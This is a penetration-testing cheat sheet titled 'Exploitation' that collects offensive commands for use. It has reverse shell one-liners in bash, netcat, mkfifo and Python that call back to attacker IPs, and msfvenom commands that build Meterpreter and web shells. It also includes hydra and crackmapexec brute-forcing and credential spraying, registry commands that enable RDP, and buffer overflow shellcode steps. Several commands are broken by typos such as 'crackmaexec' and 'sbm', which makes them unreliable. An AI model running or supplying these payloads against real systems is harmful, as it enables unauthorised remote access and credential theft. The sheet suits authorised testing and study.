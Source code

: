 ```yaml
---
title: Exploitation
excerpt: "This is a guide for exploitation"
last_modified_at: 13-01-2022
categories:
- cheatsheet
tags:  
- pentest
- exploitation
image: /assets/images/cheatsheet/exploitation.jpg
---
```

## Public exploits
Links:
- [Exploitdb](www.exploit-db.com)
- [packetstormysecurity](packetstormysecurity.com)
- [securityfocus](securityfocus.com)
- [CVE Mitre](cve.mitre.org/cve/search_cve_list.html)

### Searchsploit
```bash
searchsploit webmin
searchsploit webmin —exclude="php|Dans"
searchsploit -e webmin :
searchsploit ipfire —id -m 42149 
```  

### **Important!**
- **Always check the payloads.**
- Check the dependencies libs,dll's...
- Always test before execute in the target.  

## Wordlists
* [Seclist](https://github.com/danielmiessler/SecLists)
* [assetnote](https://wordlists.assetnote.io/)  

## Reverse shell
```bash
nc -nlvp 4444 # Open port

bash -i >& /dev/tcp/172.100.50.0/4444 0>&1
nc -e /bin/bash 172.100.50.0 4444
/bin/sh | nc 127.0.0.1 5555
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 172.100.50.0 4444 >/tmp/f # OpenBSD

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.20.1.21",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' 

msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.100.50.0 LPORT=4444 -f exe > reverse.exe # Meterpreter
msfvenom -p windows/meterpreter/reverse_tcp LHOST="172.100.50.0" LPORT=4444 -f asp > shell.asp
msfvenom -p java/jsp_shell_reverse_tcp LHOST="172.100.50.0" LPORT=4444 -f raw > shell.jsp
msfvenom -p php/meterpreter/reverse_tcp LHOST=172.100.50.0 LPORT=4444 -f raw -o shell.php

python3 -c 'import pty; pty.spawn("/bin/sh")' # Interactive shell
perl -e 'exec "/bin/sh";'
ruby: exec "/bin/sh"
```

### Mutations
```bash
john —wordlist=file —rules —stdout > mutacao # New wordlist with variations of the first
nano /etc/john/john.conf → wordlist mode rules # Mutations personalized rules
    # ^[0-9] : 0 to 9 in the begin
    # $[0-9] : 0 to 9 in te final
    # $[@]$[0-9]$[0-9] : Add @ + 2 numbers in the end.

cewl google.com -m 7 # Find every word in the page with the lenght

crunch 10 10 -t rogerio^%% -o wordlist # List based in patterns
    # % : Numbers.
    # ^ : Special character.
    # @ : Lower case character.
    # , : Capital character.
```  

### Key space brute force
All the possible variations.
```bash
crunch 4 4 0123456789 -o pin # All combinations with 4 digits.

crunch 6 6 -f charset.lst numeric -o pin # Use the crunch numeric pattern
```  

## Brute force
```bash 
hydra -v -l rogerio -p admin 172.16.1.60 sbm #SMB
hydra -v -L users.txt -p pass.txt 172.16.1.60 sbm 
hydra -v -L users.txt -P pass.txt -M alvos.txt sbm
hydra -L rdp_users.txt -P rdp_pass.txt rdp://172.16.1.188 -I -t 1 #RDP
hydra -v L users.txt -p admin 172.16.1.5 ssh
hydra -v -L users.txt -P password 172.16.1.5 -t 1 -W 5
    # -s : Set port.
    # -t : Threads.
    # -W : Sleep time beetwen tasks.
```  
### **WinRM**
Link:
* [winrm-penetration-testing]https://www.hackingarticles.in/winrm-penetration-testing/
Windows Remote Management, is a command-line tool that enables administrators to remotely execute the CMD.exe commands using the WS-Management protocol. Port 5985/HTTP, 5986/HTTPS.
Evil-WinRM
```bash
evil-winrm -i 172.16.1.140 -u user -p password
```  

### RDP
Active or disable rdp in windows
- Active
    - reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
    - netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
- Disable
    - reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f
    - netsh advfirewall firewall set rule group="remote desktop" new enable=No

### crackmaexec
Swiss knife for pentest
```bash
crackmapexec <protocol> <target(s)> -u username -p password

crackmaexec smb 172.16.1.0/24 -u jonh -p 'jonh@10' # Scan the network to the test all logins
crackmaexec smb 172.16.1.60 -u jonh -p 'jonh@10'  -x 'whoami' # Execute this command

crackmaexec ldap 192.168.1.0/24 -u user -p 'jonh@10'
crackmaexec ldap 192.168.1.0/24 -u user -H hashexemple

crackmaexec mssql 192.168.1.0/24 -u userfile -p passwordfile --no-bruteforce

crackmaexec winrm 192.168.1.0/24 -u userfile -p passwordfile --no-bruteforce
```  

## Buffer overflow

### Pattern offset
```bash
/usr/bin/msf-patter_create -l 2200 # Create pattern
/usr/bin/msf-pattern_offset -l 2200 -q 43396f43 # Find EIP overwrite
```  
### Shellcode
```bash
msfvenom -p windows/shell_reverse_tcp lhost=192.168.0.16 lport=443 exitfunc=thread -b "\x00" -f c
```  

### GDB/Linux
```bash
gdb -q ./file
info functions               # Show functions
set disassembly-flavor intel # Set flavor
disas main                   # Dissasembly specific funtion
b* 0x5655621f                # Breakpoint
run < <(python -c 'print "A" * 200') # Input data
i r                          # Show registers(esp,eip,...)
x/16xw $esp                  # Specific memory zone
break main                   # Brakpoint in the funtion
set $eip = 0x56556982        # Jump to specific function/zone
python -c 'print "A" * 136 + "BBBB" + "\x70\x62\x55\x56"' | ./file # Send a specific number, that will allow overwrite and redirect the EIP.
```